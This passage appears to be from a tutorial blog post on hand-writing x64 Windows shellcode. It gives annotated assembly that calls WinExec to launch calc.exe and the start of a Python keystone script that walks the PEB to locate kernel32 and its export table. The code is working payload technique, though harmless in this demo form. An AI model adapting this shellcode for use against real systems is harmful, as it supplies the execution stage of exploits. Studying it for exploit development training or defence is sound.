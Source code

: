 ```cpp
UINT WinExec(
  [in] LPCSTR lpCmdLine,
  [in] UINT   uCmdShow
);
```
Where:

* `lpCmdLine` will contain the command we want to execute.
* Following the [documentation](https://learn.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-showwindow){:target="_blank"}, `uCmdShow` will be set to 1, as we want to have a visible window.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-01_18-14.png" alt="">

Since the function only accepts two input parameters, as seen in the [calling conventions](#calling-conventions) section, we will only need to utilize the `RCX` and `RDX` registers.

```
# WinExec Call
"  xor rax, rax;"                   # Zero RAX to create a null byte
"  push rax;"                       # Push the null byte onto the stack, acts as string terminator for "calc.exe"
"  mov rax, 0x6578652E636C6163;"    # Move the reverse byte-order string 'calc.exe' into RAX
"  push rax;"                       # Push the string 'calc.exe' onto the stack (Note: string must be reversed in memory)
"  mov rcx, rsp;"                   # Set RCX to point to the string "calc.exe" on the stack, RCX is the first argument for WinExec
"  xor rdx, rdx;"                   # Zero out RDX, preparing it for the next operation
"  inc rdx;"                        # Set RDX to 1; this sets uCmdShow parameter for WinExec to SW_SHOWNORMAL
"  sub rsp, 0x20;"                  # Allocate 32 bytes of shadow space on the stack to prevent overwriting during the call
"  call r14;"                       # Call WinExec using the address stored in R14
```

Our code so far:

```python
import ctypes, struct
import os
import subprocess
from keystone import *
 
def main():
    SHELLCODE = (
        " start: "
        "   int3;"                          # Breakpoint
        "  sub rsp, 0x208;"                 # Free up space in the stack
        " locate_kernel32:"
        "   xor rcx, rcx;"                  # Null RCX content
        "   mov rax, gs:[rcx + 0x60];"      # +0x060 PEB
        "   mov rax, [rax + 0x18];"         # +0x018 PEB.Ldr
        "   mov rsi, [rax + 0x20];"         # +0x020 PEB.Ldr.InMemoryOrderModuleList
        "   lodsq;"                         # Loads qword from RSI into RAX
        "   xchg rax, rsi;"                 # Swap RAX & RSI
        "   lodsq;"                         # Loads qword from RSI into RAX
        "   mov rbx, [rax + 0x20] ;"        # RBX = Kernel32 base address
        "   mov r8, rbx; "                  # Copy Kernel32 base address to R8 register
        "   mov ebx, [rbx+0x3C]; "          # Get offset to the PE header from the DOS header at offset 0x3C
        "   add rbx, r8; "                  # Calculate absolute address of PE header by adding base address of kernel32.dll
        "   mov edx, [rbx+0x88];"           # Get Relative Virtual Address (RVA) of Export Address Table from PE header
        "   add rdx, r8;"                   # Convert RVA of Export Address Table to absolute address by adding base address
```